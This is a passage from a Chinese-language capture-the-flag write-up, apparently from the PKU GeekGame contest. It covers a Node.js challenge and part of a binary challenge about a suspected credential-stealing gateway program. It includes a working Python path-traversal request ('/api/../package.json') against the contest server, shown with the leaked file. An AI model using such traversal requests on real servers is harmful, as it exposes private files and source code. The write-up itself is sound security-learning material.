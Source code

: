 参考了[https://blog.csdn.net/keyball123/article/details/105169946](https://blog.csdn.net/keyball123/article/details/105169946)

### 9. Flag即服务

（只在二阶段做出第一问）

网页写明了后端是nodejs。众所周知nodejs项目根目录下都有一个package.json记录项目的重要信息（当然二阶段提示之后我才想到这一点。之前没写过nodejs，只是看过几个nodejs项目，这一点没留下深刻印象）

因为浏览器会对..作转义，因此我用python的http.client库构造了一个带..的URL勾出package.json文件

```python
import http.client as hc
conn = hc.HTTPSConnection("prob11-zg4fphs4.geekgame.pku.edu.cn")
conn.request("GET","/api/../package.json")

r1 = conn.getresponse()
print(r1.status, r1.reason)
# print(r1.getheaders(),'\n')
print(r1.read())
conn.close()
# 200 OK
# b'{"name":"demo-server","version":"1.0.0","description":"","scripts":{"start":"node --max-http-header-size=32768 start.js"},"author":"You","license":"WTFPL","dependencies":{"jsonaas-backend":"https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"}}'
```

这个package.json中意外地包含了项目源码的地址，可以直接下载

> 复盘时想到，这个漏洞可能可以用来做压缩文件那个题，于是试了一下，返回400 Bad Request。后来谷歌才知道这个漏洞是nodejs某些特定版本才有的，来自express和nodejs不兼容的问题

getflag.js中读取了三个文件中的flag，并使用unlinkSync删除。index.js中，可以看出flag0的值就是\`flag{${0.1+0.2}}\`，这是一个格式字符串，因此我们需要返回0.1+0.2，js中默认为double类型，这个运算结果为0.30000000000000004，这也就是flag0的值

后面两个flag就不会了，flag1存在变量里，可能需要一个执行任意代码的漏洞。flag2因为被赋值掉，所以很可能要执行系统命令从硬盘里恢复，也可能存在nodejs内部的其他地方，但肯定也要执行任意代码，即使根据提示看了qs和path-to-regex文档也没有发现什么可以利用的点。期待其他大佬的writeup

## Binary

### 10. 诡异的网关

（二阶段插旗）

（考虑到涉及文件的变化，首先建立git仓库便于回滚）

直接打开exe（一般来说恶意软件不建议这么做）

考虑到提示，发现一个保存的用户名为flag，密码未知，推定密码就是flag

尝试输入自己的账密（假的）连接，发现会弹出两种提示，密码过短或者账号被封。flag的账密也是账号被封。自己的账密不能被保存。

根据提示，首先尝试观察文件，发现删除config.xml不会影响功能，删除dll会导致程序无法启动，删除config会导致启动后用户名无法正常加载。

尝试forget flag账户发现config文件内容发生变成了类似config.xml的形态，但是删除config.xml不影响，说明数据是存在exe文件中或者网络IO。想到网络IO是很自然的，首先这是个网关，因此必须要向its.pku.edu.cn通信；其次这是个恶意软件，从攻击者角度是希望账密能够通过网络IO传输到自己的服务器上。为了验证，我还用任务管理器里的资源监视器查看网络活动，果然在点击连接时，出现了向its.pku.edu.cn和ns.pku.edu.cn通信的流量。
